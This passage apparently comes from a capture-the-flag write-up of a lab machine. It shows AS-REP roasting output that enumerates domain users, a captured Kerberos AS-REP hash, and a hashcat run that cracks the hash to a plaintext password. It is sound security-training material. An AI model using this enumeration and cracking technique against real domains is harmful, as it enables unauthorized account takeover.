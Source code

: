 ```text
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[+] Trying to connect to KDC at 10.10.10.179
[-] User ilee doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
$krb5asrep$23$jorden@MEGACORP:1056ca13b19833bd5ae1152f9fe42b5c$112eb867bb4c8c06593c39d27e4ca1167692f7f061691c45cd1825291fd3ae9a7b8130e239d076b0f928fc42e7d683444cb8b3124d54711fbd72278e24cf75f5bd08351fc4b63e43ae9e5affac8b6b702eef582c720ed88855e6c9a6ac41ebe7b5b86fb4043f607a6d4a090022c471183e812d08501d49ae1d2f1c62d35816e95c98437d54e396a1b680b7836a6cad4c3af218d25187bd3ac4df45ffbc13359d7b952b7d841a89ac7a1c8c16ce5625dc03212af744371cb24c611c9ddf0da4c3de5740ea9cdaf09e113d23e9969d4107be3ecc2ceeed48f274f95e5d108ff504fe527ff86a71606d38f5
[+] Trying to connect to KDC at 10.10.10.179
[-] User jsmmons doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User kpage doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[+] Trying to connect to KDC at 10.10.10.179
[-] User lana doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User nbourne doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User okent doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User pmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User rmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User sbauer doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User svc-nas doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User svc-sql doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User tushikikatomo doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User zac doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User zpowers doesn't have UF_DONT_REQUIRE_PREAUTH set
```

the password cracked very quickly

```text
zweilos@kalimaa:~/htb/multimaster$ hashcat -m 18200 -a 0 jorden.hash ~/rockyou.txt
hashcat (v6.0.0) starting...
Dictionary cache built:
* Filename..: /home/zweilos/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921506
* Keyspace..: 14344384
* Runtime...: 2 secs

$krb5asrep$23$jorden@MEGACORP:1056ca13b19833bd5ae1152f9fe42b5c$112eb867bb4c8c06593c39d27e4ca1167692f7f061691c45cd1825291fd3ae9a7b8130e239d076b0f928fc42e7d683444cb8b3124d54711fbd72278e24cf75f5bd08351fc4b63e43ae9e5affac8b6b702eef582c720ed88855e6c9a6ac41ebe7b5b86fb4043f607a6d4a090022c471183e812d08501d49ae1d2f1c62d35816e95c98437d54e396a1b680b7836a6cad4c3af218d25187bd3ac4df45ffbc13359d7b952b7d841a89ac7a1c8c16ce5625dc03212af744371cb24c611c9ddf0da4c3de5740ea9cdaf09e113d23e9969d4107be3ecc2ceeed48f274f95e5d108ff504fe527ff86a71606d38f5:rainforest786

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
```